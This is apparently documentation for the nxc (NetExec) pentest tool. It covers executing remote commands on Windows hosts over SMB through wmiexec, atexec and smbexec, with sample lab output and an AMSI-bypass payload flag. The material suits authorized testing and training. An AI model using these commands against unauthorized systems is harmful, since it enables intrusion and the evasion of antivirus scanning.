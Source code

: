 # Executing Remote Commands

## Command Execution

Executing commands on a windows system requires Administrator credentials.

nxc automatically tells you if the credential set you're using has admin access to a host by appending "(Pwn3d!)" (or whatever value you've set in the config) to the output when authentication is successful.

## Execution Methods

nxc has three different command execution methods:

* `wmiexec` executes commands via WMI
* `atexec` executes commands by scheduling a task with windows task scheduler
* `smbexec` executes commands by creating and running a service

By default nxc will fail over to a different execution method if one fails. It attempts to execute commands in the following order:

1. `wmiexec`
2. `atexec`
3. `smbexec`

If you want to force nxc to use only one execution method you can specify which one using the `--exec-method` flag.

## Executing Commands

In the following example, we try to execute `whoami` on the target using the `-x` flag:

```bash
nxc smb $TARGET -u $USER -p $PASSWORD -x whoami
06-05-2016 14:34:35 nxc          192.168.10.11:445 WIN7BOX         [*] Windows 6.1 Build 7601 (name:WIN7BOX) (domain:LAB)
06-05-2016 14:34:35 nxc          192.168.10.11:445 WIN7BOX         [+] LAB\Administrator:P@ssw0rd (Pwn3d!)
06-05-2016 14:34:39 nxc          192.168.10.11:445 WIN7BOX         [+] Executed command 
06-05-2016 14:34:39 nxc          192.168.10.11:445 WIN7BOX         lab\administrator
06-05-2016 14:34:39 [*] KTHXBYE!
```

You can also directly execute PowerShell commands using the `-X` flag:

```bash
nxc smb $TARGET -u $USER -p $PASSWORD -X '$PSVersionTable'
06-05-2016 14:36:06 nxc          192.168.10.11:445 WIN7BOX         [*] Windows 6.1 Build 7601 (name:WIN7BOX) (domain:LAB)
06-05-2016 14:36:06 nxc          192.168.10.11:445 WIN7BOX         [+] LAB\Administrator:P@ssw0rd (Pwn3d!)
06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         [+] Executed command 
06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         Name                           Value
06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         ----                           -----
06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         CLRVersion                     2.0.50727.5420
06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         BuildVersion                   6.1.7601.17514
06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         PSVersion                      2.0
06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         WSManStackVersion              2.0
06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         PSCompatibleVersions           {1.0, 2.0}
06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         SerializationVersion           1.1.0.1
06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         PSRemotingProtocolVersion      2.1
06-05-2016 14:36:10 [*] KTHXBYE!
```

### Bypass AMSI

```bash
nxc smb $TARGET -u $USER -p $PASSWORD -X '$PSVersionTable'  --amsi-bypass /path/payload
```
